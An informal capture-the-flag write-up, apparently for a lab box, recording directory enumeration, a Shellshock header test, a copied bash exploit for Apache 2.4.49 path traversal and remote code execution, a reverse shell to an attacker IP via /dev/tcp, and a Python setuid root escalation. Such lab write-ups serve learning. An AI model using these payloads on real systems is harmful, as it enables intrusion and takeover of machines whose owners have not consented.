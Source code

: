 # writeups


ohMywebServer

# source code nothing serious


http://10.10.26.240/assets/
```
Index of /assets

    Parent Directory
    .DS_Store
    css/
    fonts/
    images/
    js/

```

/cgi-bin

gobuster with big.txt wordlist
===============================================================
/.htpasswd            (Status: 403) [Size: 199]
/.htaccess            (Status: 403) [Size: 199]
/assets               (Status: 301) [Size: 235] [--> http://10.10.26.240/assets/]
/cgi-bin/             (Status: 403) [Size: 199]


dirseach++===============
[21:32:22] 200 -  404B  - /assets/                                          
[21:32:22] 301 -  235B  - /assets  ->  http://10.10.26.240/assets/
[21:32:30] 403 -  199B  - /cgi-bin/                                         
[21:32:30] 500 -  528B  - /cgi-bin/test-cgi  

cgi-bin file, means likehood have a shellchock vulnerability, we gonna test
if this, it's vulnrebale

`$ wfuzz -v -c -H "User-agent: () { :;}; echo; echo vulnerable" --ss vulnerable -t 50 -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt http://xx.xx.xx.xx/FUZZ`



info nmap 

apache 2.4.9 vulnerable to RCE and PATH Transversal
```
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami
```
after the script ok, I got a shell 
`bash hello.sh targets.txt /bin/bash "bash -i >& /dev/tcp/10.18.90.251/8889 0>&1"`

It's a docker container, and I used linpeas just to look for some vulnerabilities to exploi
and I found python capabilities

```
Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep
```
and after that I go on gtfobins and guess what I found how to exploit this one
python with capabilities like that:

`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

afther that I download nmap in static binaries, and upload it on the
box and make a scan with nmap with the ip that i found bizarre














